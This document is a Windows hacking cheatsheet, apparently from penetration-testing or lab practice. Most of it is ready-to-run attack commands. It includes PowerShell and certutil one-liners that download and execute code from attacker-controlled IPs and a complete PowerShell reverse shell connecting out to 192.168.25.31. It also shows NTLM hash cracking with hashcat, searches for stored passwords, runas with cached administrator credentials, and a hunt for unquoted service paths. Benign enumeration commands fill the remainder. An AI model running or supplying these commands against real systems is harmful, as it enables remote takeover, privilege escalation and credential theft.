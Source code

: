 # WINDOWS HACKING CHEATSHEET

### Windows spawn cmd and execute command
`cmd.exe /c echo "hello world"`

### Windows download from web
`IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')`

### Use certutil to download from web
`certutil.exe -urlcache -split -f "http://10.9.3.23/Advanced.exe" Advanced.exe`

## Windows Powershell download from web
`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.9.3.23/PowerUp.ps1')"`

## Powershell Reverse Shell One Liner
```
$client = New-Object System.Net.Sockets.TCPClient("192.168.25.31",7777);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Mount NFS v3
`mount -t nfs -o vers=3 $ip:/dir /mnt/dir`

## Download via windows CMD
`powershell -c (new-object System.Net.WebClient).DownloadFile('http://192.168.25.31/privesc/accesschk.exe','C:\Users\GitService\Desktop\accesschk.exe')`

## Show Patches
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

## Use cached creds Windows
`runas /u:Administrator cmd.exe /c findstr /si *.txt > C:\Users\offsec\Desktop\text.txt`

## Cracking Windows Password Hash
```
**Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
**USERNAME:SID:LM(BLANK=aad3b435b51404eeaad3b435b51404ee):NTLM:::
hashcat -m 1000 -a 0 -o plain-pass.txt --remove file-with-hash.hash /usr/share/wordlists/rockyou.txt
```

## Find file containing keyword
`findstr /si password *.txt | *.xml | *.xls`

## Show Drives
`wmic logicaldisk get caption,Description,providername`

## Find specific directory
`dir <Folder Name> /AD /s`

## Find specific file name on system
`dir /a /s /b c:\*flag2.txt`

`dir /b/s *.txt`

`where /r c:\Windows *.exe *.dll`

## Search long output
`command |more`

## Find Unquoted service paths
`wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """`

## Allow execution of scripts in powershell
`Set-ExecutionPolicy unrestricted`

## Show execution policy
`Get-ExecutionPolicy -List | Format-table -AutoSize`

## Show User Privlages
`whoami /priv`

## Show a Users Group
`whoami /groups`

## List users in a group
`net localgroup administrtor`

## Show info on specified user
`net user administrator`

## Show Routing table
`route print`
